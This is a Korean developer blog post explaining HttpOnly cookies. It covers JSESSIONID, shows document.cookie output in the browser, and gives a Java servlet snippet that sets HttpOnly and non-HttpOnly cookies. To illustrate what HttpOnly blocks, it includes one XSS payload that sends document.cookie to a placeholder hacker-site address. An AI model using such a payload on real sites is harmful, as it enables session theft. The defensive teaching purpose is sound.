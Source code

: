 ```yaml
---
layout:     post
title:      "[CS] HTTP Only Cookie 사용하기"
subtitle:   "\"Use HTTP Only Cookie\""
date:       2024-04-11 19:00:00
author:     "JacksonJang"
header-img: "assets/posts/post-bg_2024.jpg"
post_assets: "/assets/posts/2024-04-11"
catalog: true
tags:
    - Frontend
    - Backend
    - CS
---
```

> HttpOnly를 사용하면, XSS 공격을 예방할 수 있습니다.

우리가 인터넷을 사용하다 보면 HTTP 및 HTTPS 통신을 자주 하게 됩니다.
그러다 보면 로그인이나 상품을 구매할 수도 있고 다양한 활동들을 하게 되는데, 이때 사용되는 것이 **쿠키**입니다.

### 쿠키(Cookie)
**쿠키(Cookie)**는 세션 및 기타 정보를 관리하기 위해 사용합니다.
이런 쿠키가 존재하는 이유는 사용자의 유효성 검사를 위해서 주로 사용되는데, 톰캣을 사용한다면 주로 볼 수 있는 쿠키는 **JSESSIONID** 입니다.

> JSESSIONID : 톰캣 컨테이너에서 세션을 유지하기 위해 발급하는 키

## HTTP Only
<img width="600px" src="{{ page.post_assets }}/httpOnly_noneHttpOnly.png" />
<br />
위 사진처럼 httpOnly는 HttpOnly에 체크되어 있고, noneHttpOnly는 HttpOnly가 체크되어 있지 않습니다.

<img width="600px" src="{{ page.post_assets }}/console.png" />
위 사진은 `document.cookie`를 했을 때, 나온 결과 화면입니다.
<br />
보이는 대로 HttpOnly로 설정된 쿠키는 javascript에서 노출되지 않습니다.(단, 개발자 도구를 통해서는 볼 수 있습니다.)

따라서, 다음과 같은 XSS 공격을 통해 해커가 쿠키 값을 가져올 수 없습니다.
```js
<script> 
location.href = '해커사이트주소?cookie=' + document.cookie 
</script>
```

## Java 서버에서 처리
```java
 public Map index(HttpServletRequest request, HttpServletResponse response) {
    Map<String, Object> map = new HashMap();

    Cookie noneHttpOnly = new Cookie("noneHttpOnly", "test");
    Cookie httpOnly = new Cookie("httpOnly", "test");
    httpOnly.setHttpOnly(true);
    response.addCookie(noneHttpOnly);
    response.addCookie(httpOnly);

    map.put("cookie", request.getCookies());

    return map;
}
```
위와 같은 방식으로 `noneHttpOnly` 쿠키와 `httpOnly` 쿠키를 추가했습니다.

## github 예시
